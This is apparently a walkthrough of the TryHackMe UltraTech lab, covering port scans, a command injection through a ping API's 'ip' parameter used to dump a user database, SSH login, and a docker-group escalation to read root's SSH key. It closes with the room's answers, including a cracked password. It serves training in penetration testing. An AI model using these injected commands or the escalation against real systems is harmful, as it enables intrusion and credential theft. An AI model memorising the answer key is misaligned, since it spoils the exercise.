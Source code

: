 
# UltraTech CTF Walkthrough

UltraTech is a vulnerable server based on real-life on TryHackMe.com<br />
<br />
<i>URL: https://tryhackme.com/room/ultratech<br />
THM Difficulty: Medium<br />
My Difficulty: Medium<br />
Target IP: 10.10.39.165<br />
AttackBox IP: 10.10.157.51<br />
</i>

# Recon

For our first command we will use rustscan, rustscan will scan all of the ports in around 3 seconds.<br />
```rustscan -a 10.10.39.165```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT1.png?raw=true)<br />
Now we know which ports are open, I run an Nmap scan with the flags -sV and -sC to find the service versions and to run default scripts on the open ports.<br />
```nmap -sV -sC -p21,22,8081,31331 10.10.39.165```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT2.png?raw=true)<br />
We see 4 ports open running different services! Let's have a look into some of the services and see what we can find.<br />

## FTP Service Recon

We're going to start with FTP, let's try to connect via FTP with the anonymous account <br />
```ftp 10.10.39.165```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT3.png?raw=true)<br />
No luck there, let's move on for now.<br />

## Node.js Service Recon

We've moved onto Node.js recon, let's head over to the website http://10.10.39.165:8081 <br />
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.39.165:8081/<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT5.png?raw=true)<br />
Interesting... Let's check out the directory /auth<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT6.png?raw=true)<br />
This looks interesting... But we don't have any login details... Let's move on for now.<br />

## HTTP Service Recon

We're going to do the same steps as we did for the Node.js service recon, let's try to bruteforce some directories with gobuster<br />
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.39.165:31331/<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT4.png?raw=true)<br />
Nothing really of interest, there's an e-mail address on the contact of the bottom of the webpage, we'll save it for now.<br />

Let's see if they have a robots.txt file at http://10.10.39.165:31331/robots.txt<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT7.png?raw=true)<br />
Interesting... Let's have a look at the sitemap at http://10.10.39.165:31331/utech_sitemap.txt<br />

![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT8.png?raw=true)<br />
After having a look at all of the pages we find a login page at http://10.10.39.165:31331/partners.html<br />

![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT9.png?raw=true)<br />
Not really helpful to us since we still don't have any login information and default credentials didn't work. Let's continue looking at the other directories we got from gobuster. <br />

I came across the directory /js which had an interesting file "api.js"<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT11.png?raw=true)<br />
This file was also in the source of the login page partners.html <br />

## Looking for vulnerabilities

Let's take a loot at the api.js file
```Javascript
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```
We know a couple of things now, this file api.js uses the Node.js service as it's API and it's used to process the logins from /partners.html on the HTML service.<br />

There are a couple of lines in this file that made me interested, can you see them?<br />

```Javascript
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
```
- We know that the API URL is the Node.js service http://10.10.39.165:8081<br />
- We can see that it's sending a HTTP GET request<br />
- It looks like it's performing a ping to confirm if the API is down/up so the user can login.<br />

Let's take a look at the following URL:<br />
```http://10.10.39.165:8081/ping?ip=10.10.39.165```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT12.png?raw=true)<br />
Very interesting! This looks like the same output from a ping request sent from a Linux machine... Maybe vulnerable to command injection?<br />

## Exploiting Command Injection
What if we changed the request to something else? Let's see what happens when we try to add a list command at the end<br />
http://10.10.39.165:8081/ping?ip=10.10.39.165;ls<br />
Hm, nothing happened. Let's try that again<br />
http://10.10.39.165:8081/ping?ip=10.10.39.165;`ls` <br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT13.png?raw=true)<br />
Success! We were able to list a file "utech.db.sqlite" before we move on, let's have a look at the database file.<br />
http://10.10.39.165:8081/ping?ip=10.10.39.165;`cat utech.db.sqlite`<br />
Interesting... We've found 2 users along with their password hashes! r00t and admin<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT15.png?raw=true)<br />
Let's try to crack the hashes and see what we can do with them! We know the hashes are MD5.<br />
We've found the password now let's try to login...<br />

## SSH Service Recon
We're going to try logging into the SSH service we found earlier.<br />
```ssh r00t@10.10.39.165```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT14.png?raw=true)<br />
Success! Let's try going into /root and getting the last flag!
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT16.png?raw=true)<br />
I thought we were already root, I guess not. I try the id command which provides a general overview of the users privilege level and group memberships.<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT17.png?raw=true)<br />
Interesting, we're apart of the docker group. I may of not noticed this for about 30 minutes... Maybe we can exploit this?<br />

## Privilege Escalation

Let's try to exploit docker to get root privileges, I first checked https://gtfobins.github.io/gtfobins/docker/<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT18.png?raw=true)<br />
Awesome! Let's give the command a try and see if we get root privileges. We first need to change from alpine to bash.<br />
```docker run -v /:/mnt --rm -it bash chroot /mnt sh```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT19.png?raw=true)<br />
Success! We're now root, let's get the last flag. We need to find the root users SSH key.<br />
```cd /root/.ssh && cat id_rsa```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT20.png?raw=true)<br />

## Questions & Answers

Question 1:<br />
**Which software is using the port 8081** Node.js<br />

Question 2:<br />
**Which other non-standard port is used?** 31331<br />

Question 2:<br />
**Which software is using this port?** Apache<br />

Question 2:<br />
**Which GNU/Linux distribution seems to be used?** Ubuntu<br />

Question 2:<br />
**The software using the port 8081 is a REST api, how many of its routes are used by the web application? ** 2<br />

Question 2:<br />
**There is a database lying around, what is the filename?** utech.db.sqlite<br />

Question 2:<br />
**What is the first user's password hash?** a0c52799563c7c7b76c1e7543a32<br />

Question 2:<br />
**What is the password associated with this hash?** n100906<br />

Question 2:<br />
**What are the first 9 characters of the root users private SSH key?** MIIEogIBA<br />

### Farewell, I hope you all enjoyed this write-up!
